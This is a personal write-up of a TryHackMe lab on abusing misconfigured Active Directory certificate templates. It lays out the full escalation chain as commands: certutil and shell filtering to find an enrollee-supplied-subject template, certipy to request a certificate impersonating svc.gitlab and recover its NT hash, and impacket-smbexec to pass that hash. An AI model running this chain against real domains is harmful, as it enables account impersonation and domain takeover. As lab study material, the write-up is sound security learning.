

https://tryhackme.com/r/room/adcertificatetemplates

I don't wanna just copy and paste commands. Let's finish this THM lab first. Then we go back to authority. It might teach us how to solve the challenge.


```sh
evil-winrm \
	-i lunar.eruca.com \
	-u thm \
	-p 'Password1@'
```

```sh
xfreerdp \
	/u:thm \
	/p:'Password1@' \
	/v:lunar.eruca.com \
	/dynamic-resolution \
	+clipboard
```

ADCS  is  Microsoft's PKI implementation.  It provides a centralized CA that
can sign certificates that meet several  purposes across a organization. 

They can be exploited for horizontal movement, vertical movement and persistence. 


We can use certutil.exe top enumerate all templates that exist for an org. 

```
certutil.exe /template /v > templates.txt 
```


A certificate must meet the fallowing requirements to be exploitable. 


- Do we have permissions to request the certificate ? **Allow Enroll** or **Allow Full Control **  
- Can we use it for authentication ? 
- Can we alter the Subject Alternative Name  (SAN) ? 


First, we create a subset with all certificate templates we're allowed to request.

Then, we must create smaller subset with certificates that we can request  and that the EKU is equal Client Authentication.


Can we specify the SAN? 

	This is the juiciest of all conditions!

It works pretty much like a golden ticket, if we can  modify the SAN, then we can request a certificate for any user and use it for persistence and privilege escalation!


Now time to work

- I generated and downloaded templates.txt
```
certutil.exe /template /v > templates.txt 
```


```sh
grep -E '(Allow Enroll\s+LUNAR\\Domain Users|Allow Full Control\s+LUNAR\\Domain Users)' templates.txt
```


Nice, now we have the ID and template name for each "requestable" template.


```sh
grep -n -B80 -E '(Allow Enroll\s+LUNAR\\Domain Users|Allow Full Control\s+LUNAR\\Domain Users)' templates.txt \
	| grep -E '(Template\[([0-9]+)\]|TemplatePropCommonName)'
```


Okay, now we should create a subset of templates that we can request and that's  used for authentication.

```sh
tps=($(grep  -B80 -E '(Allow Enroll\s+LUNAR\\Domain Users)' templates.txt | \
	grep -E '(TemplatePropCommonName)' | \
	awk '{print $3}' ))

for tp in ${tps[@]}; do
	echo "Template: ${tp}"
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep -A3 'TemplatePropEKUs'
	echo
done
```


A few lines of shell and we're good

```sh
tps=("ClientAuth" "UserRequest" "UserSignature")

for tp in ${tps[@]}; do
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep 'CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT\s--\s1' > /dev/null
		if [[ "$?" -eq 0 ]]; then 
			echo "${tp} is vulnerable"
		fi
	echo
done
```

Perfect! UserRequest is vulnerable



Here's the part I don't really like.  I prefer using the command line for everything. Cus the GUI is harder to memorize. So I'll be skiping the steps they showing in the lab and we'll search how to do it from the terminal.


https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation


Alright, as we know we can impersonate any user ( we control SAN). We can just request a new  certificate for the administrator or in this lab for svc.gitlab@lunar.eruca.com using certipy from our kali. 

```sh
certipy-ad req \
	-username thm@lunar.eruca.com \
	-password 'Password1@' \
	-target-ip 10.10.3.67 \
	-ca 'lunar-LUNDC-CA' \
	-template 'UserRequest' \
	-upn 'svc.gitlab@lunar.eruca.com' \
	-debug
```

Awesome, we got a certificate for svc.gitlab


Now, we can use the certificate to authenticate with the domain as the svc.gitlab

```sh
certipy-ad auth \
	-pfx 'svc.gitlab.pfx' \
	-username 'svc.gitlab' \
	-domain 'lunar.eruca.com' \
	-dc-ip 10.10.3.67 \
	-debug
```


Okay,  it didn't work cus our clocked is not in sync not a big deal .


hehe now we got it!

```sh
impacket-smbexec 'lunar.eruca.com/svc.gitlab@10.10.3.67' \
	-hashes 'aad3b435b51404eeaad3b435b51404ee:659dd0200e40d358c29e7cd5acd7f3ca'
```


Now, let's go back to HTB's authority and try harder.

Question... that LDAPs.pfx could we just use that ?  could we  just use that to impersonate the administrator and skip a few steps ? 


